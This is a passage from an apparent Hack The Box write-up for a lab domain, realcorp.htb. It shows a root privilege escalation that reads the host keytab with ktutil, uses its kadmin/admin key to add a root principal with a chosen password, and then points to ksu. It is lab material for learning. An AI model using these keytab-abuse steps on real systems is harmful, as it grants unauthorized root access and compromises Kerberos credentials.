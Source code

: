 Or we can also open the keytab file using `ktutil`:

```bash
[admin@srv01 ~]$ ktutil
ktutil:  read_kt /etc/krb5.keytab
ktutil:  list
slot KVNO Principal
---- ---- ---------------------------------------------------------------------
   1    2     host/srv01.realcorp.htb@REALCORP.HTB
   2    2     host/srv01.realcorp.htb@REALCORP.HTB
   3    2     host/srv01.realcorp.htb@REALCORP.HTB
   4    2     host/srv01.realcorp.htb@REALCORP.HTB
   5    2     host/srv01.realcorp.htb@REALCORP.HTB
   6    2             kadmin/changepw@REALCORP.HTB
   7    2             kadmin/changepw@REALCORP.HTB
   8    2             kadmin/changepw@REALCORP.HTB
   9    2             kadmin/changepw@REALCORP.HTB
  10    2             kadmin/changepw@REALCORP.HTB
  11    2                kadmin/admin@REALCORP.HTB
  12    2                kadmin/admin@REALCORP.HTB
  13    2                kadmin/admin@REALCORP.HTB
  14    2                kadmin/admin@REALCORP.HTB
  15    2                kadmin/admin@REALCORP.HTB
```

Seems like our user is also a [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html). This allows us to add principals to keytab. We can exploit this by adding the user root to the keytab with our specified password.

### Adding root as a principal to the Keytab

In order to add root to the Keytab, we can use kadmin (`kadmin - Kerberos V5 database administration program`). We can specify the keytab with `-k` and `-t <keytabfile>`. Furthermore, we have to specify our principal with `-p`.

```bash
[admin@srv01 ~]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn\'t open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:
```

We successfully open the kadmin console. Now we have to run the add_principal (aliases: addprinc, ank) to add an entry for root.

```bash
kadmin:  add_principal root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": chronos@htb!
Re-enter password for principal "root@REALCORP.HTB": chronos@htb!
Principal "root@REALCORP.HTB" created.
```

Now we can use `ksu` (`ksu - Kerberized super-user`) to su to root. (The Keytab file is reset regularly, so we have to be fast.)
